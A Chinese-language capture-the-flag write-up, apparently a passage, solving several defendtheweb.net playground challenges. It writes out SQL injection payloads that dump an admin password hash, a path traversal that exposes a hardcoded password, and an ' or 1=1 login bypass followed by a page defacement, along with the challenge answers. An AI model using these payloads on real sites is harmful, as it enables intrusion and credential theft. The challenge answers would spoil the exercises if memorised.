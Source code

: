 首先再 url 栏瞎输入点东西，得到 sql 查询语句

```sql
DEBUG: SELECT username, admin FROM members WHERE username LIKE 'A'%'
```

因此直接构造输入得到 admin 账号 bellamond

`https://defendtheweb.net/playground/sqli2?q=A' OR admin=1;#`

再得到密码 1b774bc166f3f8918e900fcef8752817bae76a37

`https://defendtheweb.net/playground/sqli2?q=' UNION ALL SELECT password,2 FROM members WHERE admin=1;#`

这是个 sha1 加密的串，解密得到 sup3r

# Princess slag / Realistic

一眼漏洞，访问

https://defendtheweb.net/extras/playground/princess-slag/?p=../admin.php

看到了 php 源码

```php
<!--?php
    session_start();
    if(isset($_GET['password']) ){
        if( $_GET['password'] == '36d545e033'){
            echo "Correct password"
        } else {
            echo "Incorrect password";
        }
    }
?-->
```

# Xmas '08 / Realistic

随便提交一个，发现提交后的地址为 https://defendtheweb.net/extras/playground/xmas08/mod.php?submit

这是经典漏洞，我们继续访问 https://defendtheweb.net/extras/playground/xmas08/mod.php?action，可以看到登陆界面

账号和密码都直接注入 `' or 1=1`

然后打开 index.php，并将内容修改为

```html
<html>
<head>
<title>WARNING!!</title>
<style type="text/css">
body{
	background-color: #000000;
	color: #FFFFFF;
}
</style>
</head>
<body>
<div style="width: 100%; text-align:center">
	<img src="xmaswarning.jpg" />

</div>
</body>
</html>
```
